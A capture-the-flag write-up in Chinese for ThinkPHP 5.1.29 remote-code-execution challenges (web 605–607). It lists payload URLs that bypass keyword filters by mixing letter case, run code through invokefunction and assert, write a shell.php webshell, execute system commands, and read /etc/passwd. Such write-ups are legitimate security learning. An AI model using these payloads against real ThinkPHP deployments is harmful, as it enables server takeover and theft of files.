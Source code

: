 ## web 605

> 描述：未开启强制路由RCE-姿势2 版本thinkphp 5.1.29 举一反二

过滤了`invokefunction`、`input`，可以尝试url不区分大小写绕过。也可以试试试写文件，这里是可以的，为什么前面几题没用？试了，要么执行不了，要么没有写的权限

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/iNput&filter=assert&data=phpinfo();
?s=index/think\Request/INPUt&filter[]=assert&data=phpinfo();
?s=index/think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
```

## web 606

> 描述：未开启强制路由RCE-姿势4 版本thinkphp 5.1.29 举一反四

每次禁用上一题使用的payload的关键字时，通过大小写绕过一下即可。这题在上面的基础过滤了write，大写即可

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/iNput&filter=assert&data=phpinfo();
?s=index/think\Request/INPUt&filter[]=assert&data=phpinfo();
?s=index/THINK\template\driver\file/WRITE&cacheFile=shell.php&content=<?php phpinfo();?>
```

## web 607

> 描述：未开启强制路由RCE-姿势5 举一反五

上的payload还是可以打，似乎都仅仅是过滤了小写

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/iNput&filter=assert&data=phpinfo();
?s=index/think\Request/INPUt&filter[]=assert&data=phpinfo();
?s=index/THINK\template\driver\file/WRITE&cacheFile=shell.php&content=<?php phpinfo();?>
```

学到一条新链子

利用了一个`__call()`方法再触发display方法，可以渲染php代码

```php
?s=index/\think\view\driver\Think/__call&method=display&params[]=<?php system('tac /f*'); ?>
```

没什么意思，学一下其他可以解析的链子，并不是所有版本都适用！

```php
?s=index/\think\Lang/load&file=/etc/passwd   # 读取文件，如果知道flag文件名，....
?s=index/\think\Config/load&file=/etc/passwd # 包含任意文件，适用v5.0.*
```
